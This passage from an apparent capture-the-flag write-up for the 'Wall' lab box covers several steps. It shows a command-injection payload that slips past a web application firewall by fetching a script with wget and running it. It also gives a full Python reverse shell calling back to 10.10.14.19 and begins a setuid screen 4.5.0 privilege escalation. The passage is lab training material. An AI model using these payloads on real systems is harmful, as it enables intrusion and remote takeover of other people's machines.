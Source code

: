 After a bit of trial an error I found that the following payload goes through the WAF:

`"nagios_bin": "wget${IFS}-O${IFS}/tmp/test.py${IFS}http://10.10.14.19/test.py;python${IFS}/tmp/test.py"`

I setup my `test.py` to contain a standard python reverse shell (since nc / ncat wasn't installed on the target box):

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

![](/assets/images/htb-writeup-wall/Screenshot_13.png)

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
```

## Privesc

When I was checking for SUID files, I spotted something odd: The screen binary has been renamed to include the version number so this looks like a hint to me. I remember on the Flujab box that they used the same priv esc method.

```
$ find / -perm /4000 2>/dev/null
/bin/mount
/bin/ping
/bin/screen-4.5.0
[...]
```

This particular version of the `screen` software opens the logfile with full root privileges so it's possible to write any file anywhere on the system. In a nutshell, the priv esc is:
